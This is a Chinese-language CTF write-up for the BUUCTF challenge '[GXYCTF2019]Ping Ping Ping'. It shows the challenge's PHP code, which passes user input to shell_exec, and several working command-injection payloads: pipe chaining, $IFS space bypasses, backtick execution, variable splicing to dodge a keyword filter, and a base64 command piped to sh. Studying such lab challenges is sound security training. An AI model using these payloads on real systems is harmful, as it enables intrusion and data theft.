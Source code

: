 ```yaml
---
title: GXYCTF2019 Ping Ping Ping
date: 2020-12-04 20:24:50
categories: ['CTF']
tags: ['Web','BUUCTF_Web','RCE']
cover: https://cdn.jsdelivr.net/gh/penginman/PicBed@master/cover/20201120223448.jpg 
---
```


# [GXYCTF2019]Ping Ping Ping

题目链接：https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping

和DMCTF做的那道**pingpingping**类似，同样是使用管道符构造payload，先使用：

```
?ip=127.0.0.1|ls
```

目录下有两个文件：`flag.php`、`index.php`。首先试出来了空格被过滤，使用以下绕过空格：

```
$IFS
${IFS}
$IFS$1 //$1改成$加其他数字貌似都行
< 
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 
```

在linux下反单引号里面的指令会被执行 **\`ls\`**

```
?ip=|cat$IFS`ls`
```

会输出该目录下所有可以打开的文件，可以查看**index.php**的部分源码有哪些过滤：

```php
/?ip=|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
    echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
    die("fxck your symbol!");
  } else if(preg_match("/ /", $ip)){
    die("fxck your space!");
  } else if(preg_match("/bash/", $ip)){
    die("fxck your bash!");
  } else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
    die("fxck your flag!");
  }
  $a = shell_exec("ping -c 4 ".$ip);
  echo "
";
  print_r($a);
}

?>
```

一些基本的符号、空格、bash、任何形式的flag字眼都被过滤了。接下来就是找访问**flag.php**。在网上看了好多的题解，用了好多方法，但是网页输出都为空，原来以为和其他题目一样使用**readflag**的ELF执行文件访问，但是还没成功。其实执行：

```
?ip=|cat$IFS`ls`
```

这个payload的时候文件都已经输出了，我最后在网页源码找到了，原来是被注释了<span class='heimu'>我是傻逼</span>。

![](https://cdn.jsdelivr.net/gh/penginman/PicBed@master/artical/20201205110806.png)

**最后记录下学到的姿势和这道题目的其他思路**：

* 管道符：
  * `|`直接执行后面的语句。
  * `||`如果前面语句错误，执行后面的语句。
  * `&`前面和后面命令都要执行，无论前面真假，
  * `&&`如果前面为假，后面的命令也不执行，如果前面为真则执行两条命令

* 使用以下绕过空格：

```
$IFS
${IFS}
${IFS}$1
$IFS$1 //$1改成$加其他数字貌似都行
<
<> 
{cat,flag.php}  //用逗号实现了空格功能
%20 
%09 //需要php环境
```

* 覆盖源码里的`$a`变量（拼接变量）：

```
/?ip=127.0.0.1;a=g;cat$IFS$1fla$a.php
```

* 使用sh执行脚本：

```
/?ip=127.0.0.1;echo$IFS$1Y2F0IGZsYWcucGhw|base64$IFS$1-d|sh
```

* 内联执行：

```
/?ip=|cat$IFS`ls`
```

>附：大佬整理的博客（内含更多姿势）：[命令执行漏洞利用及绕过方式总结](https://www.ghtwf01.cn/index.php/archives/273/)